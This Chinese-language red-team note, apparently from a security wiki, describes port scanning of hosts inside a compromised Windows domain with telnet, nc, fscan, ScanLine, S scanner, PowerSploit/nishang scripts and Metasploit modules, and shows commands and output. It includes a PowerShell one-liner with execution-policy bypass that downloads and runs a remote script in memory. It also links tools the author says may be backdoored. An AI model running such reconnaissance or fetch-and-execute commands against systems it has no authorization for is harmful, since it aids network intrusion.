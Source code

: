 ```yaml
---
title: 域内主机端口探测方法
---
```


# 前言
> 注：本文中的工具均来源自互联网，后门自查。工具可在狼盘下载 pan.wgpsec.org 

在进入目标域后，对域内存活主机进行端口探测是经常要做的一步，在此记录一些常见的方法。

## 1、Telnet

如果想探测某台主机的某个端口是否开放，直接使用 telnet 命令是最方便的。

```
C:\Users\daniel10>telnet dc 80
正在连接dc...无法打开到主机的连接。 在端口 80: 连接失败

C:\Users\daniel10>telnet 192.168.7.7 443
正在连接192.168.7.7...无法打开到主机的连接。 在端口 443: 连接失败
```

## 2、nc

素有瑞士军刀之称的 nc 也是可以拿来做端口探测的。

nc 下载地址：[https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

```
nc.exe -vv 192.168.7.7 3389
```

```
C:\Users\daniel10>nc.exe -vv 192.168.7.7 3389
DNS fwd/rev mismatch: DC != DC.teamssix.com
DC [192.168.7.7] 3389 (ms-wbt-server) open
```

拿来进行多个端口扫描也是可以的，就是扫描速度有点慢

```
nc.exe -rz -w 2 -vv 192.168.7.7 0-65535

-r 随机指定本地与远端主机的通信端口
-z 使用0输入/输出模式，只在扫描通信端口时使用
-w<超时秒数> 设置等待连线的时间
```

```
C:\Users\daniel10>nc.exe -rz -w 2 -vv 192.168.7.7 443-445
DNS fwd/rev mismatch: DC != DC.teamssix.com
DC [192.168.7.7] 444 (?): TIMEDOUT
DC [192.168.7.7] 443 (https): TIMEDOUT
DC [192.168.7.7] 445 (microsoft-ds) open
sent 0, rcvd 0
```

## 3、fscan

影舞者大佬写的一款工具，使用起来感觉很是方便，项目地址：[https://github.com/shadow1ng/fscan](https://github.com/shadow1ng/fscan)

```
fscan.exe -h 192.168.7.7 -p 22,445
```

```
C:\Users\daniel10>fscan.exe -h 192.168.7.7 -p 22,445

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.5.1
scan start
(icmp) Target '192.168.7.7' is alive
icmp alive hosts len is: 1
192.168.7.7:445 open
[+] 192.168.7.7 MS17-010        (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
scan end
```

## 4、ScanLine

McAfee 出品的一款经典的端口扫描工具，ScanLine 项目地址：[www.mcafee.com/us/downloads/free-tools/termsofuse.aspx](www.mcafee.com/us/downloads/free-tools/termsofuse.aspx)

但是项目地址的下载按钮貌似失效了，其他的下载地址：[https://www.lanzous.com/i32zncf](https://www.lanzous.com/i32zncf)

```
scanline.exe -h -t 22,80,445,3389 -p 192.168.7.7
```

```
C:\Users\daniel10>scanline.exe -h -t 22,80,445,3389 -p 192.168.7.7

ScanLine (TM) 1.01
Copyright (c) Foundstone, Inc. 2002
http://www.foundstone.com
Scan of 1 IP started at Wed Feb 24 21:31:11 2021
-------------------------------------------------------------------------------
192.168.7.7
Responds with ICMP unreachable: No
TCP ports: 445 3389
-------------------------------------------------------------------------------
Scan finished at Wed Feb 24 21:31:15 2021
1 IP and 4 ports scanned in 0 hours 0 mins 4.03 secs
```

## 5、S 扫描器

S 扫描器支持大网段扫描，扫描速度也很快，是比较早期的一款扫描工具了，比较适合运行在 Windows Server 2003 以下版本的操作系统中，下载地址：[https://pan.baidu.com/s/1gdGM4F5](https://pan.baidu.com/s/1gdGM4F5)

> 值得提一句的是在我下载该工具到本地后，火绒立马给它删了，而其他的扫描工具火绒都没告警。

```
s.exe tcp 192.168.7.7 22,80,443,445 7
```

```
C:\Users\daniel10>s.exe tcp 192.168.7.7 22,80,443,445 7
TCP Port Scanner V1.1 By WinEggDrop

Normal Scan: About To Scan 4 Ports Using 7 Thread
192.168.7.7      445   Open
Scan 192.168.7.7 Complete In 0 Hours 0 Minutes 3 Seconds. Found 1 Open Ports
```

## 6、PowerShell 脚本

### PowerSploit

PowerSploit 的 Invoke-Portscan 脚本下载地址：[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1)

无文件形式（推荐）

```
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.7.7 -T 4 -ports '445,1433,80,8080,3389'"
```

> 如果报错，估计是网络的问题

有文件形式

```
powershell.exe -exec bypass -Command "Import-Module ./Invoke-Portscan.ps1;Invoke-Portscan -Hosts 192.168.7.7 -T 4 -ports '445,1433,80,8080,3389'"
```

```
C:\Users\daniel10>powershell.exe -exec bypass -Command "Import-Module ./Invoke-Portscan.ps1;Invoke-Portscan -Ho
sts 192.168.7.7 -T 4 -ports '445,1433,80,8080,3389'"

Hostname      : 192.168.7.7
alive         : True
openPorts     : {445, 3389}
closedPorts   : {8080, 80, 1433}
filteredPorts : {}
finishTime    : 2021/2/24 下午 21:14:06
```

### nishang

nishang 的 Invoke-Portscan 脚本下载地址：[https://raw.githubusercontent.com/samratashok/nishang/0090ba2e51b7503c3245081894c0fc87b696f941/Scan/Invoke-PortScan.ps1](https://raw.githubusercontent.com/samratashok/nishang/0090ba2e51b7503c3245081894c0fc87b696f941/Scan/Invoke-PortScan.ps1)

```
 Invoke-PortScan -StartAddress 192.168.7.7 -EndAddress 192.168.7.7 -ScanPort -Port 80,443,445
```

```
PS C:\Users\daniel10> Import-Module .\Invoke-Portscan.ps1
PS C:\Users\daniel10> Invoke-PortScan -StartAddress 192.168.7.7 -EndAddress 192.168.7.7 -ScanPort -Port 80,443,445

IPAddress   HostName Ports
---------   -------- -----
192.168.7.7          {445}
```

## 7、MSF

万能的 MSF 自然也是能够进行端口探测的，MSF 中用于端口探测的模块有：

```
auxiliary/scanner/portscan/ack          TCP ACK端口扫描
auxiliary/scanner/portscan/ftpbounce    FTP bounce端口扫描
auxiliary/scanner/portscan/syn         	SYN端口扫描
auxiliary/scanner/portscan/tcp          TCP端口扫描  
auxiliary/scanner/portscan/xmas         TCP XMas端口扫描
……
```

除了上述工具外，还有 nmap、masscan 什么的就不多说了，读者如果感兴趣可以自行尝试玩玩。

> 参考文章：
>
> [https://pingmaoer.github.io/2020/03/30/%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B8%80/](https://pingmaoer.github.io/2020/03/30/%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B8%80/)
